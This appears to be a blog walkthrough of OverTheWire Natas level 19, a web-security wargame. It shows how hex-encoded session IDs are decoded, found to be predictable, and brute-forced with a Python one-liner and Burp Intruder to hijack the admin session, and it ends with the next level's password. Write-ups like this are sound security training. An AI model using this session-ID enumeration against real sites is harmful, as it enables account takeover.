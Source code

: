 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 19"
date:   2015-09-26
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 19 > Level 20

![natas19-01](/img/otw-natas/natas19-01.png)

No code this time!

My first thought is to examine the PHPSESSID. While longer, it does not appear to be the familiar PHP-provided session token. I submit the same POST request three times with user 'useruser' and password 'passpass' to examine the tokens.

```
39302d7573657275736572
3135342d7573657275736572
3230342d7573657275736572
```

Even with only three, it's obvious that they share a suffix `2d7573657275736572`.

Lots of two-digit numbers started with 3 smells like hex ASCII, so convert each token to straight characters.

```
90-useruser
154-useruser
204-useruser
```

Ouch. Back to Burp Intruder, this time with a list of values fashioned as above. They can be generated with the following Python one-liner, saved to a file, and loaded into Intruder.

```
python -c "print '\n'.join(str(s) for s in ['{}-admin'.format(x).encode('hex') for x in range(640)])"
```

```
otw@sake:~/natas$ python -c "print '\n'.join(str(s) for s in ['{}-admin'.format(x).encode('hex') for x in range(640)])" > natas19.txt
otw@sake:~/natas$ head natas19.txt 
302d61646d696e
312d61646d696e
322d61646d696e
332d61646d696e
342d61646d696e
352d61646d696e
362d61646d696e
372d61646d696e
382d61646d696e
392d61646d696e
```

Send them down the pipe, and again with the single response suspiciously of a different length...

![natas19-02](/img/otw-natas/natas19-02.png)

eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF



